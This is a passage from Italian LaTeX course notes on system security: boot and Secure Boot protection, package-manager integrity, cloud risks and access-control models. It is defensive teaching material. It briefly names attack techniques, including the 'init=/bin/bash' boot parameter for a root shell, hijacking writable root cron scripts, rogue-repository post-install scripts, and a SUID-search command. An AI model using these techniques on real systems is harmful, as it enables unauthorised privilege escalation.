	\item \textbf{Key Injection}: iniezione di comandi via tastiera emulata.
	\item \textbf{Disk Un/plugging}: attacchi a dischi self-encrypting.
	\item \textbf{Power Glitching}: manipolazione dell'alimentazione per alterare l'esecuzione.
\end{itemize}

\subsection{Fattori non informatici (Sicurezza Fisica Tradizionale)}
L'accesso fisico si ottiene spesso tramite: Insider, Tailgating, Social Engineering, Effrazione.

\textbf{Contromisure:}
\begin{itemize}
	\item Regolamenti chiari e condivisi.
	\item Perimetro robusto e sorveglianza.
	\item Garanzia di \textbf{Disponibilità} (vertice della triade CIA): Alimentazione, Connettività, Condizionamento.
\end{itemize}

\noindent\rule{\textwidth}{0.4pt}

\section{Protezione del Processo di Boot}

Se l'attaccante ha accesso fisico, può tentare di alterare il normale processo di avvio per caricare software malevolo (rootkit).

\subsection{Fasi del Boot e vulnerabilità}
\begin{enumerate}
	\item \textbf{BIOS / UEFI}: individua i dispositivi di boot.
	\begin{itemize}
		\item \textit{Minaccia}: Modifica dell'ordine di boot per avviare da USB.
		\item \textit{Difesa}: Password di configurazione BIOS.
	\end{itemize}
	\item \textbf{Boot Loader} (LILO/GRUB): sceglie il SO e passa parametri.
	\begin{itemize}
		\item \textit{Minaccia}: Accesso alla ``maintenance mode'' (shell di root senza password) o passaggio di parametri come \texttt{init=/bin/bash}.
		\item \textit{Difesa}: Password del boot loader (\texttt{password} e \texttt{restricted} in LILO/GRUB).
	\end{itemize}
	\item \textbf{Sistema Operativo}: carica driver e servizi.
	\item \textbf{init}: gestisce runlevel/target.
\end{enumerate}

\textbf{Problema della password di avvio}: In ambienti non supervisionati, un blackout elettrico bloccherebbe il sistema in attesa della password, impedendo il riavvio automatico.

\noindent\rule{\textwidth}{0.4pt}

\section{Trusted Computing e Secure Boot}

Per garantire l'autenticità del software eseguito, serve una \textbf{catena di fiducia} (Chain of Trust) che parte dall'hardware.

\subsection{Concetti Fondamentali}
\begin{itemize}
	\item \textbf{Hardware Root of Trust}: Componente hardware immodificabile (es. TPM) da cui parte la verifica.
	\item \textbf{Measured Boot}: Processo che usa il TPM per \textbf{misurare} (calcolare hash) e registrare ogni componente caricato nei PCR (Platform Configuration Registers). Non blocca l'avvio, ma fornisce evidenze (Remote Attestation).
	\item \textbf{Trusted Boot}: Usa le misure del Measured Boot per \textbf{bloccare} l'avvio se un componente non è fidato.
	\item \textbf{Secure Boot}: Nome specifico dell'implementazione di Trusted Boot su firmware \textbf{UEFI} (Unified Extensible Firmware Interface).
\end{itemize}

\subsection{UEFI Secure Boot}
UEFI è un ``mini-OS'' che verifica la firma digitale di ogni componente prima di eseguirlo.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 55.png}
\end{figure}

\textbf{Database e Chiavi:}
\begin{itemize}
	\item \textbf{PK} (Platform Key): chiave radice della piattaforma (spesso Microsoft).
	\item \textbf{KEK} (Key Exchange Key): chiavi per aggiornare i database delle firme.
	\item \textbf{db} (Authorized Database): lista degli hash/chiavi dei componenti autorizzati.
	\item \textbf{dbx} (Forbidden Database): lista dei componenti esplicitamente vietati.
\end{itemize}

\textbf{Shim e MOK (Machine Owner Keys):}\\
Poiché la PK è spesso di Microsoft, per avviare sistemi Linux personalizzati si usa un piccolo bootloader firmato chiamato \textbf{Shim}. L'utente può generare le proprie \textbf{MOK} e registrarle nel firmware per validare kernel o moduli custom.

\noindent\rule{\textwidth}{0.4pt}

\section{Integrità del Software Applicativo e Package Manager}

Una volta avviato il SO, l'integrità va garantita per il software installato.

\subsection{Verifica delle Firme}
\begin{itemize}
	\item \textbf{Principio}: Verificare sempre la firma digitale degli archivi scaricati (es. \texttt{gpg --verify}).
	\item \textbf{Rischio}: Fidarsi ciecamente della chiave pubblica scaricata dallo stesso sito.
	\item \textbf{Soluzione}: Utilizzare i \textbf{Package Manager} delle distribuzioni (APT, YUM/DNF), che gestiscono automaticamente un portachiavi fidato e le dipendenze.
\end{itemize}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 56.png}
\end{figure}

\subsection{Confronto tra Gestori di Pacchetti (Debian vs Red Hat)}

\begin{table}[H]
	\centering
	\begin{tabular}{|l|l|l|}
		\hline
		\textbf{Feature} & \textbf{Debian (.deb)} & \textbf{Red Hat (.rpm)} \\ \hline
		\textbf{Formato} & \texttt{.deb} & \texttt{.rpm} \\ \hline
		\textbf{Tool Basso Livello} & \texttt{dpkg} & \texttt{rpm} \\ \hline
		\textbf{Tool Alto Livello} & \texttt{apt} & \texttt{yum} / \texttt{dnf} \\ \hline
		\textbf{Chiavi} & \texttt{/etc/apt/trusted.gpg.d/} & \texttt{rpm --import} \\ \hline
		\textbf{Repo List} & \texttt{/etc/apt/sources.list} & \texttt{/etc/yum.repos.d/*.repo} \\ \hline
	\end{tabular}
\end{table}

\subsection{Rischi nella gestione dei Repository}
\begin{itemize}
	\item \textbf{Cross-Signing}: Una chiave GPG importata per un repo di terze parti può validare \textit{tutti} i pacchetti, creando un rischio se quel repo viene compromesso. \textbf{Best Practice}: specificare il percorso della chiave per ogni singolo repo (\texttt{signed-by=/path/key.gpg}).
	\item \textbf{Software Injection}: Se un repo non ufficiale pubblica una versione più alta di un pacchetto di sistema (es. \texttt{openssl}), il package manager lo installerà automaticamente.
	\item \textbf{DevOps Woes}: Attacchi di \textit{Dependency Hijacking} (Typosquatting) nei repository pubblici (npm, PyPI).
\end{itemize}

\textbf{Contromisure:}
\begin{itemize}
	\item \textbf{Version Locking/Pinning}: Bloccare la versione di pacchetti critici per evitare aggiornamenti indesiderati (\texttt{apt-mark hold}, \texttt{yum versionlock}).
\end{itemize}

\noindent\rule{\textwidth}{0.4pt}

\section{Sicurezza nel Cloud}

A seconda del modello di servizio (IaaS, PaaS, SaaS), molti problemi di sicurezza fisica e di host \textbf{svaniscono} o si trasformano in responsabilità del provider.

\subsection{Sicurezza: Cloud vs. On-Premise}
\begin{itemize}
	\item \textbf{Controllo}: La distanza geografica genera una \textbf{perdita di controllo} percepita.
	\item \textbf{Competenza}: I grandi Cloud Service Provider (CSP) dispongono di team di sicurezza di livello mondiale, difficilmente replicabili in-house.
	\item \textbf{Verifica}: È necessario fare \textit{Due Diligence} verificando certificazioni (ISO 27001) e audit (SOC 2 Type II).
\end{itemize}

\subsection{Benefici del Cloud per la Sicurezza}
\begin{enumerate}
	\item \textbf{Economia di Scala}: Ridondanza geografica, risposta agli incidenti migliorata, specialisti dedicati.
	\item \textbf{Aggiornamenti Rapidi}: Immagini di VM pre-hardened e aggiornate centralmente.
	\item \textbf{Scalabilità}: Meccanismi difensivi (traffic shaping, filtraggio) scalabili on-demand durante un attacco.
	\item \textbf{SLA Stringenti}: I contratti di servizio impongono audit e gestione del rischio più rigorosi.
\end{enumerate}

\subsection{Rischi Specifici del Cloud}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 57.png}
\end{figure}

\subsubsection{Rischi Organizzativi}
\begin{itemize}
	\item \textbf{Perdita di Controllo (Loss of Control)}: Gap tra le necessità del cliente (CSC) e quanto offerto negli SLA del provider (CSP).
	\item \textbf{Lock-in}: Difficoltà a migrare dati e servizi a causa di API proprietarie.
	\item \textbf{Supply Chain Failure}: La sicurezza è forte quanto l'anello più debole della catena di fornitura (sub-contractor).
\end{itemize}

\subsubsection{Rischi Tecnici}
\begin{itemize}
	\item \textbf{Economic Denial of Service (EdoS)}: In modelli pay-per-use auto-scaling, un attacco DDoS fa lievitare i costi invece di degradare le prestazioni.
	\item \textbf{Cedimento dell'Isolamento}: Attacchi \textit{cross-VM} su host condivisi (Side-Channel). Intercettazione dati durante migrazioni live.
	\item \textbf{Vulnerabilità della Piattaforma}: Compromissione dell'interfaccia di gestione del cloud.
\end{itemize}

\subsubsection{Rischi Legali e Giurisdizionali}
\begin{itemize}
	\item \textbf{Protezione dei Dati}: Leggi diverse per paese; il CSP potrebbe spostare i dati tra datacenter in giurisdizioni diverse senza preavviso.
	\item \textbf{Giurisdizione}: Le autorità possono sequestrare dati o interrompere servizi in base alle leggi del paese dove ha sede legale il CSP o dove risiedono fisicamente i dati.
\end{itemize}

\subsection{La Pratica delle Backdoor e Supply Chain (Teoria)}
Gli attacchi alla \textit{supply chain} del software mirano a compromettere un sistema bersaglio distribuendo codice malevolo attraverso canali di distribuzione o aggiornamento solitamente considerati sicuri (come i repository dei package manager).

\begin{itemize}
	\item \textbf{Compromissione tramite Gestori di Pacchetti}\\
	Se un attaccante riesce a far interrogare un repository malevolo al sistema vittima, può distribuire pacchetti contraffatti (es. una finta shell \texttt{bash}) dotati di un numero di versione superiore rispetto all'originale.
	\begin{itemize}
		\item \textbf{Il pericolo degli script di Post-Installazione:} I gestori di pacchetti (come APT su sistemi Debian-based) eseguono gli script di pre- e post-installazione con privilegi massimi (\textbf{root}). L'installazione di un pacchetto compromesso garantisce quindi all'attaccante un'esecuzione immediata di codice arbitrario privilegiato.
	\end{itemize}
	
	\item \textbf{Il ruolo critico del Secure Boot contro i Rootkit}\\
	Spesso il codice malevolo iniettato via supply chain tenta di installare un modulo kernel (rootkit) per garantirsi persistenza, nascondere processi e alterare le chiamate di sistema. L'esito di questo tentativo dipende dall'architettura di boot:
	\begin{itemize}
		\item \textbf{Senza Secure Boot:} Il kernel Linux accetta di caricare dinamicamente qualsiasi modulo gli venga passato, permettendo al rootkit di infettare il sistema senza ostacoli.
		\item \textbf{Con Secure Boot abilitato:} La direttiva UEFI impone che ogni componente caricato (inclusi i moduli kernel) debba possedere una firma digitale valida e riconosciuta (es. tramite chiavi MOK o della distribuzione). Il kernel bloccherà proattivamente il caricamento del modulo non firmato, neutralizzando l'infezione a basso livello.
	\end{itemize}
	
	\item \textbf{Contromisure Architetturali e di Configurazione}\\
	Per mitigare il rischio di iniezioni via package manager, è necessario:
	\begin{itemize}
		\item \textbf{Verifica rigorosa delle firme (GPG):} Mantenere l'obbligo di validazione crittografica dei pacchetti. È un errore critico forzare il sistema ad accettare pacchetti non firmati (es. utilizzando flag come \texttt{[trusted=yes]}).
		\item \textbf{Pinning dei Repository:} Configurare il package manager per assegnare una priorità ("pin") rigida e superiore ai repository ufficiali. Con un pinning corretto, il sistema si rifiuterà di installare pacchetti di base provenienti da fonti di terze parti, anche se queste offrono versioni apparentemente più recenti.
	\end{itemize}
\end{itemize}

\chapter{Autorizzazione}

\section{Introduzione al Controllo degli Accessi}

Il processo di controllo dell'accesso segue l'autenticazione e determina quali operazioni un soggetto può compiere sulle risorse. Si articola in tre fasi:

\begin{enumerate}
	\item \textbf{Definire il modello} del sistema (limitatamente ai fattori critici per la sicurezza).
	\item \textbf{Definire la politica} di accesso (le regole che governano i permessi).
	\item \textbf{Attuare la politica} tramite meccanismi HW/SW.
\end{enumerate}

È fondamentale \textbf{separare politiche e meccanismi} per confrontare modelli diversi, identificare requisiti minimi e progettare componenti riutilizzabili.

\subsection{Caratteristiche delle Politiche}
\begin{itemize}
	\item \textbf{Principio del privilegio minimo}: concedere sempre l'insieme minimo di autorizzazioni necessarie.
	\item \textbf{Consistenza}: schema di risoluzione non ambiguo per conflitti tra regole (es. default deny vs. allow, ordine spaziale/temporale).
	\item \textbf{Completezza e correttezza}: ogni richiesta deve ricevere una risposta entro un tempo limite (es. regola di default implicita).
\end{itemize}

\subsection{Caratteristiche dei Meccanismi}
\begin{itemize}
	\item \textbf{Resistenza alle manomissioni}.
	\item \textbf{Mediazione completa}: ogni accesso deve passare attraverso il meccanismo di controllo.
	\item \textbf{Piccolo e autonomo} (facile da testare).
	\item \textbf{Economico} (costo inferiore al danno potenziale).
\end{itemize}

\subsection{Parametri di Decisione}
Oltre all'identità del soggetto, le politiche possono basarsi su:
\begin{itemize}
	\item \textbf{Ruolo} del soggetto.
	\item \textbf{Modalità di accesso} (read, write, execute).
	\item \textbf{Vincoli spaziali e temporali}.
	\item \textbf{Storia delle attività} (es. limiti di utilizzo).
\end{itemize}

\noindent\rule{\textwidth}{0.4pt}

\section{Modelli di Controllo degli Accessi}

\subsection{Modelli Fondamentali}

\begin{table}[H]
	\centering
	\begin{tabular}{|l|p{6cm}|p{5cm}|}
		\hline
		\textbf{Modello} & \textbf{Descrizione} & \textbf{Caratteristiche} \\ \hline
		\textbf{DAC} (Discretionary AC) & Il proprietario dell'oggetto decide i permessi. & Flessibile, usato in UNIX/Linux e Windows. \\ \hline
		\textbf{MAC} (Mandatory AC) & Policy centralizzata decisa da un security manager; i proprietari non possono modificarla. & Alta sicurezza, usato in SELinux/AppArmor. \\ \hline
		\textbf{RBAC} (Role-Based AC) & I permessi sono assegnati a ruoli, non a singoli utenti. & Utile in organizzazioni con ruoli dinamici. \\ \hline
	\end{tabular}
\end{table}

\textbf{Dettaglio su RBAC (Role-Based Access Control):}\\
A differenza di DAC e MAC, RBAC è un modello standardizzato (ANSI) definito \textit{"policy neutral"}. È fondamentale a livello aziendale perché permette di implementare nativamente tre principi cardine della sicurezza:

\begin{enumerate}
	\item \textbf{Minimo privilegio} (assegnando ai soggetti solo i ruoli strettamente necessari).
	\item \textbf{Separazione delle responsabilità} (Separation of Duties).
	\item \textbf{Astrazione} (i permessi non sono intesi come mere operazioni sui file come "read/write", ma come azioni logiche di business, es. "credito" o "addebito").
\end{enumerate}
In RBAC, il ruolo ricoperto da un utente può cambiare dinamicamente nel tempo o in base al contesto.

\subsection{Implementazioni Efficienti: Matrice degli Accessi}
Concettualmente i permessi formano una matrice Soggetti $\times$ Oggetti. Per evitare sprechi di memoria, si utilizzano due viste partizionate:
\begin{itemize}
	\item \textbf{Capability List}: per ogni soggetto, lista degli oggetti accessibili con relativi permessi.
	\item \textbf{Access Control List (ACL)}: per ogni oggetto, lista dei soggetti autorizzati. Modello standard di POSIX e Windows.
\end{itemize}

% ISTRUZIONI PER COMPILARE SENZA ERRORI: 
% Quando avrai l'immagine "Slide 8" togli il simbolo % all'inizio delle 5 righe qui sotto e metti il nome del file corretto.
\begin{figure}[H]
	     \centering
	     
\includegraphics[width=0.7\textwidth]{screenshot001.png}
	     \caption{Schema Capability List vs ACL}
\end{figure}

\noindent\rule{\textwidth}{0.4pt}

\section{DAC nei Sistemi Linux/Unix}

\subsection{Gestione di Utenti e Gruppi}
\begin{itemize}
	\item Comandi: \texttt{adduser}, \texttt{addgroup}, \texttt{passwd}.
	\item Ogni utente appartiene almeno a un gruppo primario (solitamente omonimo).
	\item \textbf{Lock degli account}: \texttt{passwd -l} impedisce login interattivo ma permette processi con quell'identità (minimo privilegio).
\end{itemize}

\subsection{Permessi Standard del Filesystem (inode)}
Ogni file ha associati:
\begin{itemize}
	\item \textbf{UID} (proprietario).
	\item \textbf{GID} (gruppo proprietario).
	\item \textbf{12 bit di permesso}: 3 bit speciali + 3 bit per User (U), Group (G), Other (O).
\end{itemize}

\textbf{Significato di \texttt{r}, \texttt{w}, \texttt{x}:}

\begin{table}[H]
	\centering
	\begin{tabular}{|l|l|l|}
		\hline
		\textbf{Permesso} & \textbf{Su File} & \textbf{Su Directory} \\ \hline
		\textbf{r} & Leggere contenuto & Elencare file (\texttt{ls}) \\ \hline
		\textbf{w} & Modificare contenuto & Creare/rinominare/cancellare file \\ \hline
		\textbf{x} & Eseguire file & Attraversare (\texttt{cd}) \\ \hline
	\end{tabular}
\end{table}

\begin{quote}
	\textbf{Nota importante}: Il permesso \texttt{w} su una directory permette di cancellare \textbf{qualsiasi} file al suo interno, anche se non si hanno diritti sul file stesso. Il permesso \texttt{x} sulle directory del path è indispensabile per accedere al file.
\end{quote}

\subsection{Composizione e Maschera (umask)}
\textbf{Ordine di valutazione dei permessi:}
\begin{enumerate}
	\item Se l'utente è il proprietario (UID match), si applicano \textbf{solo} i permessi User.
	\item Altrimenti, se appartiene al gruppo proprietario (GID match), si applicano i permessi Group.
	\item Altrimenti, si applicano i permessi Other.
\end{enumerate}

\textbf{Permessi di default alla creazione:}
\begin{itemize}
	\item File: \texttt{666} (\texttt{rw-rw-rw-})
	\item Directory: \texttt{777} (\texttt{rwxrwxrwx})
	\item \textbf{umask}: maschera che sottrae bit. Esempio: \texttt{umask 006} toglie \texttt{rw} agli altri, lasciando il file \texttt{rw-rw----}.
\end{itemize}

\subsection{Bit Speciali (SUID, SGID, Sticky)}

\begin{table}[H]
	\centering
	\begin{tabular}{|l|l|p{5cm}|p{5cm}|}
		\hline
		\textbf{Bit} & \textbf{Ottale} & \textbf{Su File Eseguibile} & \textbf{Su Directory} \\ \hline
		\textbf{SUID} & \texttt{4xxx} & Il processo eredita l'\textbf{UID} del proprietario del file (es. \texttt{/usr/bin/passwd}). & Non significativo. \\ \hline
		\textbf{SGID} & \texttt{2xxx} & Il processo eredita il \textbf{GID} del proprietario del file. & I nuovi file ereditano il gruppo proprietario della directory. \\ \hline
		\textbf{Sticky} & \texttt{1xxx} & (Obsoleto su file) & Impedisce agli utenti di cancellare file di cui non sono proprietari (es. \texttt{/tmp}). \\ \hline
	\end{tabular}
\end{table}

\begin{quote}
	\textbf{Comando di ricerca:} \texttt{find / -type f -perm /6000} per individuare file SUID/SGID.
\end{quote}

\subsection{POSIX ACL e Attributi Estesi}
Le \textbf{ACL} superano i limiti dei permessi standard permettendo di specificare permessi per utenti/gruppi arbitrari.

\begin{lstlisting}[language=bash]
	# Visualizzare ACL
	getfacl file
	
	# Impostare ACL
	setfacl -m u:lisa:rw- file
\end{lstlisting}

\textbf{Attributi del filesystem} (\texttt{chattr}, \texttt{lsattr}) utili per la sicurezza:
\begin{itemize}
	\item \texttt{a} (append only): utile per i log.
	\item \texttt{i} (immutable): impedisce cancellazione, rinomina e scrittura.
\end{itemize}

\subsection{Capabilities di Linux}
I poteri di root sono frammentati in \textbf{capability} (es. \texttt{CAP\_DAC\_OVERRIDE} per ignorare i permessi, \texttt{CAP\_NET\_ADMIN} per gestire rete). È possibile assegnare capability specifiche a processi senza concedere pieni poteri di root, implementando il minimo privilegio.

\begin{lstlisting}[language=bash]
	# Assegnare capability a un binario
	setcap cap_net_raw+ep /bin/ping
\end{lstlisting}

\noindent\rule{\textwidth}{0.4pt}

\section{DAC nei Sistemi Microsoft Windows}

\subsection{Domini e Active Directory}
In ambiente Windows, gli oggetti (utenti, computer, risorse) sono gestiti in un \textbf{dominio} con un database directory comune (\textbf{Active Directory}).

\textbf{Tipi di Utenti:}
\begin{itemize}
	\item \textbf{Locali}: validi solo sulla macchina locale.
	\item \textbf{Dominio}: validi su tutto il dominio e domini trusted.
\end{itemize}

\subsection{Gruppi: Scope e Utilizzo Consigliato}

\begin{table}[H]
	\centering
	\begin{tabular}{|l|p{3.5cm}|p{4cm}|p{3.5cm}|}
		\hline
		\textbf{Scope} & \textbf{Contiene} & \textbf{Può essere membro di} & \textbf{Permessi su} \\ \hline
		\textbf{Domain Local} & Utenti, Global, Universal dello stesso dominio & Domain Local dello stesso dominio & Risorse dello stesso dominio \\ \hline
		\textbf{Global} & Utenti, Global dello stesso dominio & Domain Local, Universal di qualsiasi dominio & Risorse di qualsiasi dominio \\ \hline
		\textbf{Universal} & Utenti, Global, Universal di qualsiasi dominio & Domain Local, Universal di qualsiasi dominio & Risorse di qualsiasi dominio \\ \hline
	\end{tabular}
\end{table}

\textbf{Best Practice (AGDLP):}
\begin{enumerate}
	\item \textbf{A}ccounts (Utenti) $\to$ membri di \textbf{G}lobal Groups.
	\item \textbf{G}lobal Groups $\to$ membri di \textbf{D}omain \textbf{L}ocal Groups.
	\item Assegnare \textbf{P}ermessi ai Domain Local Groups.
\end{enumerate}

\subsection{Group Policy Objects (GPO)}
Le GPO definiscono impostazioni di sicurezza e configurazione per utenti e computer (es. disabilitare porte USB, configurare desktop). Si applicano a Site, Domain o OU.

% ISTRUZIONI PER COMPILARE SENZA ERRORI: 
% Quando avrai l'immagine "Slide 35" togli il simbolo % all'inizio delle 5 righe qui sotto e metti il nome del file corretto.
\begin{figure}[H]
     \centering
     
\includegraphics[width=0.7\textwidth]{screenshot002.png}
     \caption{Esempio di GPO per limitare l'uso di porte USB}
\end{figure}

\subsection{NTFS: Permessi Standard e Speciali}
I permessi NTFS sono gestiti tramite \textbf{ACL}. L'owner ha sempre "Full Control". Le autorizzazioni sono divise in:
\begin{itemize}
	\item \textbf{Standard}: Read, Write, Modify, Full Control, List Folder Contents, Read \& Execute.
	\item \textbf{Speciali}: aggregati in quelli standard per semplicità (es. "Traverse Folder", "Delete").
\end{itemize}

\textbf{Composizione dei permessi:}
\begin{itemize}
	\item \textbf{Allow} esplicito e \textbf{Deny} esplicito.
	\item \textbf{Deny} prevale sempre su \textbf{Allow} (Strong Deny).
	\item \textbf{Non impostato} = Deny debole (scavalcabile da Allow di un altro gruppo).
\end{itemize}

% ISTRUZIONI PER COMPILARE SENZA ERRORI: 
% Quando avrai l'immagine "Slide 46" togli il simbolo % all'inizio delle 5 righe qui sotto e metti il nome del file corretto.
\begin{figure}[H]
     \centering
     
\includegraphics[width=0.7\textwidth]{screenshot003.png}
     \caption{Schema di composizione Allow/Deny in NTFS}
\end{figure}

\subsection{Condivisioni (Shares) e Permessi Combinati}
Quando si accede a una risorsa via rete, si combinano due livelli di ACL:
\begin{enumerate}
	\item \textbf{Share Permissions} (sulla condivisione di rete).
	\item \textbf{NTFS Permissions} (sul filesystem locale).
\end{enumerate}

\textbf{Regola:} L'accesso effettivo è il \textbf{più restrittivo} tra i due livelli.

\noindent\rule{\textwidth}{0.4pt}

\section{Cenni ai Modelli Mandatory (MAC)}

Nel MAC le regole sono imposte centralmente e non modificabili dai proprietari.

\subsection{Livelli e Categorie}
Ogni soggetto (clearance) e oggetto (classification) riceve un'etichetta:
\begin{itemize}
	\item \textbf{Livello gerarchico}: Top Secret $>$ Secret $>$ Confidential $>$ Unclassified
	\item \textbf{Categorie non gerarchiche} (compartimenti): es. \{Nucleare, Ricerca\}
\end{itemize}

\subsection{Modelli Classici}

\begin{table}[H]
	\centering
	\begin{tabular}{|l|l|l|}
		\hline
		\textbf{Modello} & \textbf{Obiettivo} & \textbf{Regola Principale} \\ \hline
		\textbf{Bell-LaPadula (BLP)} & \textbf{Riservatezza} & No Read Up, No Write Down \\ \hline
		\textbf{Biba} & \textbf{Integrità} & No Read Down, No Write Up \\ \hline
	\end{tabular}
\end{table}

\noindent\rule{\textwidth}{0.4pt}

\section{Privilege Escalation e Vulnerabilità dei Demoni di Sistema}

Una volta ottenuto accesso come utente non privilegiato, l'obiettivo è elevare i privilegi (es. diventare root) sfruttando \textbf{vulnerabilità locali} o \textbf{errori di configurazione} nei processi di sistema.

\subsection{Bombe Logiche e Processi Privilegiati}
I processi eseguiti con privilegi elevati (es. demoni di sistema) possono essere manipolati se i file di configurazione o gli script che eseguono hanno permessi di scrittura troppo larghi.

\subsection{Cron e At (Esecuzione Pianificata)}
\begin{itemize}
	\item \textbf{\texttt{crond}}: esegue comandi pianificati.
	\begin{itemize}
		\item \textbf{File utente}: \texttt{/var/spool/cron/crontabs/<utente>} (editabile con \texttt{crontab -e}).
		\item \textbf{System-wide}: \texttt{/etc/crontab} e directory \texttt{cron.hourly/daily/weekly/monthly}.
		\item \textbf{Vulnerabilità}: Se un utente può scrivere in uno script eseguito da \texttt{cron} di root, può ottenere privilegi di root.
	\end{itemize}
\end{itemize}

